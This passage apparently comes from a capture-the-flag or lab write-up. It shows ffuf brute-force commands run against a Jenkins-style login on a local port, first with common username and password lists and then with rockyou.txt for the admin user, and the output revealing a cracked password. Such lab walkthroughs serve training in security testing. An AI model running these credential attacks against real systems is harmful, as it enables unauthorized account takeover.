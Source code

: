 ![](../../attachment/1ed105a477b7f28027dffd949d90527f.png)

Tried login with `aubreanna`, failed

Brute force

> Tried common user names and passwords, no result

```bash
ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -v -fr 'loginError'
```

Specify user admin and wordlist `rockyou.txt`

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr 'loginError'
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4228ms]
| URL | http://127.0.0.1:8888/j_acegi_security_check
| --> | http://127.0.0.1:8888/
    * FUZZ: spongebob
```
